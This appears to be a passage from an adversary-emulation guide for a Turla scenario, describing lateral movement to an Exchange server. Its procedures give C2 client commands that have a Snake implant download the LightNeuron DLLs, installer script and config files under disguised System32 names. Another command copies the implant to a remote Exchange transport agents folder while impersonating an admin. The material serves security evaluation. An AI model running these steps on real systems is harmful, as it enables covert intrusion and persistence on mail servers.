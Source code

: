   * [File Upload](../../Resources/Snake/UserModule/src/comms_http.cpp#L359)

### :microscope: Cited Intelligence

* TBD

## Step 18 - Lateral Movement to Exchange Server

:microphone: `Voice Track:`

Step 18 emulates Turla laterally moving to the Exchange server and installing the LightNeuron implant there.

Snake downloads LightNeuron and associated Powershell installation script and config files, transfers them to the Exchange server, and remotely executes the installation script using WMI to install LightNeuron on the Exchange server.

---

### :biohazard: Procedures

* From the Kali C2 lower terminal window, task Snake to download LightNeuron:
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "ln_transport_agent.dll", "dest":"C:\\Windows\\System32\\mtxconf.dll"}'
```

* Wait 1 minute and then task Snake to download the companion DLL for LightNeuron:
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "n_installer_aux.dll", "dest":"C:\\Windows\\System32\\mtxcli.dll"}'
```

* Wait 1 minute and then task Snake to download the Powershell installation script for LightNeuron.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "msiex.ps1", "dest":"C:\\Windows\\System32\\msiex.ps1"}'
```

* Wait 1 minute and then task Snake to download the LightNeuron email rules file.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "rules.xml", "dest":"C:\\Windows\\System32\\wdr.rules.xml"}'
```

* Wait 1 minute and then task Snake to download the LightNeuron config file.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "winmail.dat", "dest":"C:\\Windows\\System32\\perfe009.dat"}'
```

* Wait 1 minute and then task Snake to copy LightNeuron, the rules config file, and the Powershell installation script to the remote target `drebule`, using token impersonation to perform the copy as `ZilvinasAdmin`.
```bash
# Copy LightNeuron
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "copy C:\\Windows\\System32\\mtxconf.dll \"\\\\drebule\\C$\\Program Files\\Microsoft\\Exchange Server\\V15\\TransportRoles\\agents\\Hygiene\\Microsoft.Exchange.Transport.Agent.ConnectionFiltering.dll\"", "runas": "nk\\zilvinasadmin"}'
```
